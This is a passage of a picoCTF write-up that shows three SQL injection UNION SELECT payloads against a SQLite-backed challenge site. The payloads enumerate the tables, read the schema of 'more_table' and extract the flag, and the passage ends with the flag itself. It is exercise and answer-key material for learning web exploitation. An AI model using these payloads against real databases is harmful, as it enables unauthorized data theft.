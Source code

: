 ```
-1' UNION SELECT 1,group_concat(tbl_name),3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+
```

<img width="441" alt="image" src="https://user-images.githubusercontent.com/66155978/225991201-0b184fbf-b432-4d2e-b2ee-6c5964f9ef3b.png">

Now, time to get column names. The 4th table "more_table" has a column named "flag". 

```
-1' UNION SELECT 1,sql,3 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='more_table'--+
```

<img width="450" alt="image" src="https://user-images.githubusercontent.com/66155978/225992401-7b9718fa-6e0d-48e7-8e80-e4f97217b96f.png">

Now, finally extracting data from column 

```
-1' UNION SELECT 1,flag,3 FROM more_table--+ 
```

<img width="461" alt="image" src="https://user-images.githubusercontent.com/66155978/225993400-38c4c86b-c990-47b6-99ea-2cedea9d8d8b.png">


## Flag 

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}	
